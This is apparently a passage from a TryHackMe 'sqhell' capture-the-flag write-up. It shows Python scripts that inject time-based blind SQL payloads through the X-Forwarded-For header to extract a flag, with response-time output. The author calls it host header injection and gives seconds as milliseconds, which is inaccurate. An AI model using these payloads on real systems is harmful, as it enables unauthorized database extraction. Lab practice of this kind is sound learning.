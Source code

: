 ```
iii: We log your IP address for analytics purposes
```

Researching for awhile, I find out that this is relevant to the **Host Header Injection**. To easily understand this vulnerability, I will perform the injection with my python script to log the response time based on the **Time-based blind** type.

Start with a normal request:

{% highlight python linenos %}
import requests

url = "http://sqhell.thm/"

response = requests.post(url)

print(response.elapsed.total_seconds())
{% endhighlight %}

The response time is about **0.5** ms:

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ python3 flag2.py
0.505435
```

From here, I append the **headers** value within my **time-based blind** payload:

{% highlight python linenos %}
import requests

url = "http://sqhell.thm/"

header = {"X-forwarded-for": "' UNION SELECT SLEEP(5),2,3#"}

response = requests.post(url, headers=header)

print(response.elapsed.total_seconds())
{% endhighlight %}

And capture the response time:

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ python3 flag2.py
5.507326
```

The response time is now up to **5ms** as which I have specified in the header script → The payload worked! Then, I modify the payload to include the **flag’s characters** like this:

{% highlight python linenos %}
import requests

url = "http://sqhell.thm/"

header = {"X-forwarded-for": "' UNION SELECT SLEEP(5),2,3 FROM flag where flag like 'THM%'#"}

response = requests.post(url, headers=header)

print(response.elapsed.total_seconds())
{% endhighlight %}
